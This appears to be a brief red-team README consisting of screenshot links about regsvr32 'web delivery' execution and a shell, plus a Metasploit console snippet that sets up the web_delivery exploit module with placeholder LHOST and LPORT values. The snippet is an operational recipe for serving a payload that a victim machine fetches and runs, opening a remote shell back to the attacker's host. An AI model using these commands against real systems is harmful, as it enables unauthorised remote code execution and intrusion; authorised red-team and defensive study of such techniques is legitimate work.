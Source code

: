 # Red-Team

<img src="https://blog.conscioushacker.io/wp-content/uploads/2017/11/regsvr32_msf_webdelivery.png" width="600">

<img src="https://blog.conscioushacker.io/wp-content/uploads/2017/11/regsvr32_execute.png" width="600">
<img src="https://blog.conscioushacker.io/wp-content/uploads/2017/11/regsvr32_web_delivery_execute.png" width="600">
<img src="https://blog.conscioushacker.io/wp-content/uploads/2017/11/regsvr32_web_delivery_shell.png" width="600">
```
    use exploit/multi/script/web_delivery
    set LHOST <ip address>
    set LPORT <port>
    set target 2
    exploit -j
```
